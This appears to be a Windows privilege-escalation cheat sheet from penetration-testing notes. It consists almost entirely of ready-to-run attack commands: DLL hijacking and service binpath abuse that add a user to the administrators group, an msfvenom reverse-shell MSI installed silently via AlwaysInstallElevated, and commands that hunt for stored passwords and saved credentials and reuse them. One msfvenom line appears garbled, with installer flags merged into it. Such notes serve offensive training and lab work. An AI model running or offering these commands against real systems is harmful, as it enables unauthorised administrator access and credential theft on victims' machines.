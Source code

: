 Find service with a DLL that isn't found, able to start/stop service and searched location is in a writeable directory. Also need C source code- transfer to Kali - insert line then compile.  

    system("cmd.exe /k net localgroup administrators user /add");             #line to insert in C code
    
    x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll              #compile on Kali then transfer   
### Binpath  
Look for SERVICE_CHANGE_CONFIG and SERVICE_START     
Windows XP SP1 - upnphost service and dependant service. [Ref](https://sohvaxus.github.io/content/winxp-sp1-privesc.html)  

     accesschk.exe /accepteula -wuvc [svc name]         
     
     sc config [svc name] binpath= "net localgroup administrators [username] /add"   
     sc start [service name]   
## Registry Exploits
### Autoruns   
Search

    reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 

Confirm perms - overwrite the program? (May need to upload accesschk) 

    accesschk /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
### AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=53 -f msi -o reverse.msi /quiet /i reverse.msi
    #upload reverse reverse shell to C:\temp  
    msiexec /quiet /qn /i C:\Temp\reverse.msi
## Passwords  
Run from C:\ (recursive search). C:\Windows\Panther\Unattend.xml: base64 password    

    findstr /si password *.xml *.ini *.txt *.config 2>nul    
    dir /s *pass* == *vnc* == *.config* 2>nul    
    
    dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul    
    
DMP Files (possible base64 passwords)  - find or create from processes

    strings /root/Desktop/iexplore.DMP | grep "Authorization: Basic"    
    
### Saved creds
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
    cmdkey /list   
    dir C:\Users\username\AppData\Local\Microsoft\Credentials\   
    dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\   
    
    runas /savecred /user:[user name] C:\PrivEsc\reverse.exe  
    